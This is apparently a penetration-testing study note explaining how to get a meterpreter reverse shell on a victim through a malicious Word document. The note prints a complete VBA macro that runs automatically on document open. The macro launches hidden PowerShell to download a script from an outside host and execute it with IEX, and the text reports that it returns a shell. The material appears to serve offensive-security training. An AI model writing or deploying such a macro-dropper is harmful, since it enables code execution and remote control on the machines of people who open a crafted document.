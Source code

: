 ## Bypassing Powershell Execution
Our dll and script are ready to go, and we can execute the script using a 64-bit powershell session.
However, that's not very useful, because our victim will in no world, be running a powershell script in a powershell session to call our shell.

To tackle this, we'll edit our dll to be 32 bit, and also use a 32 bit meterpreter reverse shell that will be called using a word macro.

We start by compiling the code in [Reflective Load](Reflective%20Load.md) note, to be 32 bit instead of 64 bit.

We will then create the macro with the following code, to use powershell to download and run our powershell script:
```VBA
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.160/vs-run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```

Running the script, we get a shell:

![dn-macro](../../../Screenshots/dn-macro.png)
